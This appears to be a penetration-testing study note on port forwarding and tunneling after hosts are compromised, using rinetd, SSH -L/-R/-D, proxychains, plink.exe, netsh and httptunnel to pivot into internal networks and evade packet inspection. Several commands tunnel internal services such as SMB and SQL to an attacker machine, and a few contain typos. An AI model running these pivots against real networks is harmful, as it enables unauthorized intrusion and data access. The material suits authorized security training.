




# Port Redirection and Tunneling

> Carry a protocol over a incompatible delivery network or provide a secure route in a untrusted network.

## Port Forwarding

Redirect traffic from one ip and port to another ip and port.

### Scenario


<!--  -->

The Linux Web Server is compromised, and we have root previledges. The Linux Client is also compromised and we gain ssh credentials. (i.e. connected to Linux Client via 2 layers of ssh)

The linux client isn't connected to the internet, but connected with the Linux Web Server in internal network.

We now need to transfer data to and from the Linux Client.

**What we can do it redirect traffic to port 80 of the Web Server to the internet. So the Linux Client can connect to internet through the Web Server.**

### RINETD

```bash
sudo apt update && sudo apt install rinetd
sudo leafpad /etc/rinetd.conf
# add the following
# bindaddress bindport    connectaddress 	connectport
0.0.0.0 		80 		216.58.207.142 		   80

sudo service rinetd restart
ss -antp | grep "80"		# port listening on port 80

# from the compromised machine, connect to port 80 of attacker machine
nc -nvv <IP> 80
```

What is does is, when the server machine receives an request on port 80, it's always sent to the destination address and port.

## SSH Tunneling

SSH can create encrypted tunnels within ssh protocol.

### Scenario



<!--  -->

There are 3 machines in total. One attacker machine **A**, one compromised machine **B** (the Linux Client) connected to internet with only port 22, 8080, one machine **C** (windows) connected to **B** but only has access to local network.

We want to transfer data.

**B** redirects requests to to **C** via ssh.

### SSH Local Port Forwarding

Tunnel a local port to a remote server.

```bash
sudo ssh -N -L 0.0.0.0:445:<target IP>:445 <username>@<IP>	# run this on attacker machine
# -N: no executing remote command
# -L: port forwarding, then bind port 445 of localhost to port 445 of remote machine
# username and IP are of the compromised machine (medium).
```

Change samba setting, min samba verstion to V2

`min protocol = SMB2` in `/etc/smbda/smb.conf`

List windows shared files

```bash
# on compromise linux client
smbclient -L 127.0.0.1 -U Administrator
```

All traffic on the port should be redirected to the windows machine.

 ### SSH Remote Port Forwarding



<!--  -->

Reverse of SSH Local Port Forwarding. 

```bash
ssh -N -R [bind_address:]port:host:hostport [username@address]
# example
ssh -N -R <attacker ip>:2221:127.0.0.1:3306 kali@<attacker ip>
```

bind_address is Attacker's IP address. 

-R to open a port (let's say 2221) for listening on the Attacker machine, 

Request to attacker machine's port 2221 will be forwarded to the linux client, and then to the SQL server running on that Linux client.

Check localhost port

```bash
ss -antp | grep "2221"
```

Flow: On attacker machine => send request to 127.0.0.1 port 2221 => request redirected to Linux Client port 3306 through the ssh tunnel.

```bash
# on attacker
sudo nmap -sS -sV 127.0.0.1 -p 2221
```

### SSH Dynamic Port Forwarding



<!--  -->

Similar to SSH Local Port Forwarding

No need to create a tunnel for every port or every target ip in the network.

```bash
# on attacker machine
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address> # -D for dynamic port forwarding
```

Redirect any traffic to localhost:8080 to target network.

`<username>@<SSH server address>` are for the compromised linux client.

We need to tell how to run proxy.

```bash
sudo leafpad /etc/proxychains.conf
```

add socks4 proxy to it `socks4 127.0.0.1 8080`

```bash
proxychains nmap --top-ports=20 -sT -Pn <IP>
```


## PLINK.exe

> A windows ssh client

Pivoting on windows machine.

Download the tool with ftp server.

```powershell
cmd.exe /c echo y | plink.exe --ssh -l kali -pw <pwd> -R <attacker ip>:1234:127.0.0.1:3360 <attacker ip>
```

Scan target from attacker

```bash
sudo nmap -sS -sV 127.0.0.1 -p 1234
```

## NETSH

Windows based tool.

```powershell
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=<attacker ip> connectpoty=445 connectaddress=<target ip>
```

Open port 4455 for inbound traffic on windows machine with **netsh**

```powershell
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=<attacker ip> localport=4455 action=allow
```

On attacker machine, configure samba to use smb2 as min protocol

```bash
smbclient -L <attacker ip> --port=4455 --user=Administrator
```

## HTTPTunneling Through Deep Packet Inspection



<!--  -->

Use HTTP protocol for tunnelling.

`apt-cache search httptunnel`

Use `httptunnel` to encapsulate traffic within http request (http tunnel).

HTTP uses client-server model.

`sudo apt install httptunnel`

```bash
hts --forward-port localhost:8888 1234
htc --forward-port 8080 10.11.0.128:1234
```


